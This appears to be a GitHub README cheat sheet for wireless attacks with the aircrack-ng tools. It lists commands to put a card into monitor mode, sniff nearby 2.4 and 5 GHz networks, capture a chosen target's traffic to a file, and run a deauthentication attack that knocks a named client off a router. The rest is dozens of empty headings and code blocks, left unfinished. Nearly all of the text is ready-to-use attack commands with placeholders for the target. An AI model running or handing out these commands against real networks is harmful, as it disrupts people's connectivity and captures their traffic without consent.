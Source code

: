 # My Interface Name is wlan1, Your interface Name may be diffrent
### see wireless network command
```
iwconfig
```
### see wireless network iP Aadress command
```
ifconfig
```

### disable network interface 
```
ifconfig wlan1 down
```
### kill network manager
```
airmon-ng check kill
```
### change interface `managed` mode to `monitor` mode
```
iwconfig wlan1 mode monitor
```
### Enable Network Interface
```
ifconfig wlan1 up
```

---
&nbsp;
# Packet Sniffing

### sniff network around us `2.4 GHz frequency only`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### caputre data into a file `fileName`
```
airodump-ng --bssid @1 --channel @2 --write fileName wlan1
```

@1 → `BSSID` of target

@2 → Channel no. of target

### to read captured data captured in `fileName.cap`, open wireshark application
```
wireshark
```


---
&nbsp;
# DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client

### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
